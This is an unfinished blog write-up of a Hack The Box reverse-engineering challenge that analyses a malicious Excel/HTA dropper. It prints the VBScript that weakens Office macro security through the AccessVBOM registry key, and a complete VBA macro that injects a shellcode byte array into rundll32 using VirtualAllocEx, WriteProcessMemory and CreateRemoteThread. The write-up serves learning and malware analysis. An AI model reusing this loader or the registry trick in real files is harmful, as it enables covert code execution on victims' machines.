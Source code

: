 ```yaml
---
title: HTB write up for the oBfsC4t10n[HARD] challenge
subtitle: security through obscurity?
description: write up for the oBfsC4t10n[HARD] challenge
published: true
datePublished: 1611316432536
author: lwlx
authorTwitter: "0x0000005"
authorPhoto: /profile
tags:
  - ctf
  - writeup
  - hackthebox
  - oBfsC4t10n
  - htb
  - security
thumbnailPhoto: /htb/htb-obfuscation-thumb.jpg
bannerPhoto: /htb/htb-obfuscation
canonicalUrl:
---
```


# oBfsC4t10n _[HARD]_ `(WIP)`

This is my Write Up for the "oBfsC4t10n" challenge from Hack The Box.

We are given a _zip file_. after extraction we are presented with an **html** file telling us to download an **excel file**.
The excel file has been included in the html as a **base64 encoded** string, lets just save that info for later `base64.txt` in case we need it.

> decoding `base64.txt` actually gives us a valid excel like file.

After we checked the HTML and deemed the download save lets fetch the excel file.

## Enumeration

Instead of trying to open or analyze the file on our own machine, lets go ahead and upload it to **ANY.RUN**.

> [https://ANY.RUN](https://ANY.RUN) is a **online Sandbox** service that allows you to open various suspicious files or programms to fully analyze what would happen, without the danger.

After Testing the file with **ANY.RUN** we were able to see how the exploit would work and what would be done. So we tested on a **Windows 7** Machine, after opening the file, the exploit imediately startet to run:

![excel-file-report](/htb/obfuscation/file-report.png)

> 1. At first a temp file was created under `C:\Users\admin\AppData\Local\Temp\CVR40EB.tmp.cvr`
> 2. Then a what seems to be `visual basic script` executer was added here: `C:\Users\admin\AppData\Local\Temp\VBE\MSForms.exd`
> 3. followed by a `.hta` file with a funny name..: `C:\Users\admin\AppData\Local\Temp\LwTHLrGh.hta` <-- lemme guess thats the one.
> 4. it then makes use of `mshta.exe` to try and execute the `LwTHLrGh.hta` file.
> 5. then ANY.RUN stops executing the file.

![important files](/htb/obfuscation/file-modifications.png)

I went ahead and _downloaded_ the `MSForms.exd` as well as the `LwTHLrGh.hta` file so we can analyze them further.

## Analyzing `LwTHLrGh.hta`

> .hta is a propriatary file format used by microsoft, its called '**HT**ML **A**pplication' and supports HTML code as well as **Visual Basic** or **JScript**. This format was meant to be used by Internet Explorer.
>
> The **default file-association** for the .hta extension is the Microsoft HTML Application Host (**mshta.exe**). If you have not disabled or changed this file association, in effect the HTA file behaves like an executable when double-clicked. An **HTA runs** as a **fully trusted application** and as a result has a lot **more privileges than a normal HTML** file.

Sounds dangerous, nice!

So lets disect this bitch!

When opening the file we see it has a rather clear structure, a huge VB Script and **even comments**. How nice of the hacker not to obfuscate his code too much, thanks [@0xdf](https://twitter.com/0xdf_). ;-)

```jsx
"<html><head>

<script language="vbscript">

<!-- VB script here -->

</script></head></html>"
```

so naturally, since its practiacally all the code, we strip the vbcode out of the .hta to make it readable.

Thank god we know VB, otherwise this would be a pain from here on now. ;-) Thankfully, since the autor has left some comments, indicating how the attack works, we should be able to cope with it.

The very first thing he does is effectively creating a backup of the AccessVBOM key **if** it has been set before.

```vb
' Get the old AccessVBOM value
RegPath = "HKEY_CURRENT_USER\Software\Microsoft\Office\" & objExcel.Version & "\Excel\Security\AccessVBOM"

if RegExists(RegPath) then
        action = WshShell.RegRead(RegPath)
else
        action = """"
end if
```

> "_Setting AccessVBOM to 1 allows to access the VBA Object Model_"

Then he 'weakens the target' by setting the AccessVBOM to 1, thus enabling all acces to VBA Object Model.

```VB
' Weaken the target
WshShell.RegWrite RegPath, 1, "REG_DWORD"
```

Then he gets to the juicy part.
To Exploit the Security setting he just turned off, he creates a new Excel Workboo, with macros of course.
He then proceeds to add VBComponents to the Excel, allowing him to add an Assembly Code Module.

```VB
' Run the macro
Set objWorkbook = objExcel.Workbooks.Add()
Set xlmodule = objWorkbook.VBProject.VBComponents.Add(1)
xlmodule.CodeModule.AddFromString ... 80 more lines...

```

In his last step this good boy restores the systems registry to its previous state.

```vb
' Restore the registry to its old state
if action = "" then
        WshShell.RegDelete RegPath
else
        WshShell.RegWrite RegPath, action, "REG_DWORD"
end if
self.close
```

> xlmodule.CodeModule.AddFromString contains many obfuscated lines of assembly code, I deobfuscated it by printing it via VBS.

Here is the actualy assembly code payload:

```cpp
Private Type PROCESS_INFORMATION
    hProcess As Long
    hThread As Long
    dwProcessId As Long
    dwThreadId As Long
End Type

Private Type STARTUPINFO
    cb As Long
    lpReserved As String
    lpDesktop As String
    lpTitle As String
    dwX As Long
    dwY As Long
    dwXSize As Long
    dwYSize As Long
    dwXCountChars As Long
    dwYCountChars As Long
    dwFillAttribute As Long
    dwFlags As Long
    wShowWindow As Integer
    cbReserved2 As Integer
    lpReserved2 As Long
    hStdInput As Long
    hStdOutput As Long
    hStdError As Long
End Type

#If VBA7 Then
    Private Declare PtrSafe Function CreateStuff Lib "kernel32" Alias "CreateRemoteThread" (ByVal hProcess As Long, ByVal lpThreadAttributes As Long, ByVal dwStackSize As Long, ByVal lpStartAddress As LongPtr, lpParameter As Long, ByVal dwCreationFlags As Long, lpThreadID As Long) As LongPtr
    Private Declare PtrSafe Function AllocStuff Lib "kernel32" Alias "VirtualAllocEx" (ByVal hProcess As Long, ByVal lpAddr As Long, ByVal lSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
    Private Declare PtrSafe Function WriteStuff Lib "kernel32" Alias "WriteProcessMemory" (ByVal hProcess As Long, ByVal lDest As LongPtr, ByRef Source As Any, ByVal Length As Long, ByVal LengthWrote As LongPtr) As LongPtr
    Private Declare PtrSafe Function RunStuff Lib "kernel32" Alias "CreateProcessA" (ByVal lpApplicationName As String, ByVal lpCommandLine As String, lpProcessAttributes As Any, lpThreadAttributes As Any, ByVal bInheritHandles As Long, ByVal dwCreationFlags As Long, lpEnvironment As Any, ByVal lpCurrentDirectory As String, lpStartupInfo As STARTUPINFO, lpProcessInformation As PROCESS_INFORMATION) As Long
#Else
    Private Declare Function CreateStuff Lib "kernel32" Alias "CreateRemoteThread" (ByVal hProcess As Long, ByVal lpThreadAttributes As Long, ByVal dwStackSize As Long, ByVal lpStartAddress As Long, lpParameter As Long, ByVal dwCreationFlags As Long, lpThreadID As Long) As Long
    Private Declare Function AllocStuff Lib "kernel32" Alias "VirtualAllocEx" (ByVal hProcess As Long, ByVal lpAddr As Long, ByVal lSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As Long
    Private Declare Function WriteStuff Lib "kernel32" Alias "WriteProcessMemory" (ByVal hProcess As Long, ByVal lDest As Long, ByRef Source As Any, ByVal Length As Long, ByVal LengthWrote As Long) As Long
    Private Declare Function RunStuff Lib "kernel32" Alias "CreateProcessA" (ByVal lpApplicationName As String, ByVal lpCommandLine As String, lpProcessAttributes As Any, lpThreadAttributes As Any, ByVal bInheritHandles As Long, ByVal dwCreationFlags As Long, lpEnvironment As Any, ByVal lpCurrentDriectory As String, lpStartupInfo As STARTUPINFO, lpProcessInformation As PROCESS_INFORMATION) As Long
#End If

Sub Auto_Open()
    Dim myByte As Long, myArray As Variant, offset As Long
    Dim pInfo As PROCESS_INFORMATION
    Dim sInfo As STARTUPINFO
    Dim sNull As String
    Dim sProc As String

#If VBA7 Then
    Dim rwxpage As LongPtr, res As LongPtr
#Else
    Dim rwxpage As Long, res As Long
#End If
    myArray = Array(-35,-63,-65,32,86,66,126,-39,116,36,-12,91,49,-55,-79,98,49,123,24,3,123,24,-125,-61,36,-76,-73,-126,-52,-70,56,123,12,-37,-79,-98,61,-37,-90,-21,109,-21,-83,-66,-127,-128,-32,42,18,-28,44,92,-109,67,11,83,36,-1,111,-14,-90,2,-68,-44,-105,-52,-79,21,-48,49,59,71,-119,62,-18,120,-66,11,51,-14,-116,-102,51,-25,68,-100,18,-74,-33,-57,-76,56,12,124,-3,34,81,-71,-73,-39,-95,53,70,8,-8,-74,-27,117,53,69,-9,-78,-15,-74,-126,-54,2,74,-107,8,121,-112,16,-117,-39,83,-126,119,-40,-80,85,-13,-42,125,17,91,-6,-128,-10,-41,6,8,-7,55,-113,74,-34,-109,-44,9,127,-123,-80,-4,-128,-43,27,-96,36,-99,-79,-75,84,-4,-35,122,85,-1,29,21,-18,-116,47,-70,68,27,3,51,67,-36,100,110,51,114,-101,-111,68,90,95,-59,20,-12,118,102,-1,4,119,-77,80,85,-41,108,17,5,-105,-36,-7,79,24,2,25,112,-13,43,50,-88,-5,83,-61,-46,-115,58,-81,49,21,-46,66,43,-68,66,-77,-59,81,-76,-125,77,-17,-79,116,94,-80,2,72,-22,17,-7,-58,33,-14,113,127,119,127,26,76,37,2,-38,-38,96,-44,-18,-102,-116,-15,-124,-37,110,-109,-112,-117,-26,97,-91,42,76,-20,67,70,-94,-72,-36,-1,91,-31,-105,-98,-92,60,-46,-95,47,-76,34,111,-40,-67,48,-104,-65,61,-55,89,42,61,-93,93,-4,106,91,92,-39,92,-60,-97,12,-33,3,95,-47,-23,120,86,71,85,23,-105,-121,85,-25,-63,-51,85,-113,-75,-75,6,-86,-71,99,59,103,44,-116,109,-37,-25,-28,-109,2,-49,-86,108,97,83,-84,-110,-9,124,21,-6,7,61,-91,-6,109,-67,-11,-110,122,-110,-6,82,-126,57,83,-6,9,-84,17,-101,14,-27,-12,5,14,10,45,-74,117,95,-46,55,-118,-119,-73,56,-118,-75,-55,5,92,-116,-65,72,92,-85,-80,-1,-63,-102,90,-1,86,-36,78)
    If Len(Environ("ProgramW6432")) > 0 Then
        sProc = Environ("windir") & "\\SysWOW64\\rundll32.exe"
    Else
        sProc = Environ("windir") & "\\System32\\rundll32.exe"
    End If

    res = RunStuff(sNull, sProc, ByVal 0&, ByVal 0&, ByVal 1&, ByVal 4&, ByVal 0&, sNull, sInfo, pInfo)

    rwxpage = AllocStuff(pInfo.hProcess, 0, UBound(myArray), &H1000, &H40)
    For offset = LBound(myArray) To UBound(myArray)
        myByte = myArray(offset)
        res = WriteStuff(pInfo.hProcess, rwxpage + offset, myByte, 1, ByVal 0&)
    Next offset
    res = CreateStuff(pInfo.hProcess, 0, 0, rwxpage, 0, 0, 0)
End Sub
Sub AutoOpen()
    Auto_Open
End Sub
Sub Workbook_Open()
    Auto_Open
End Sub
```

You can see the Variable myArray seems suspicous, when running the payload in Excel I get an error for 'myArray'

Im stuck here at the moment... I was told i would not need windows..

@ me on twitter [@0x0000005](https://twitter.com/0x0000005)

> This Post is marked as `WIP` and will be updated continously.

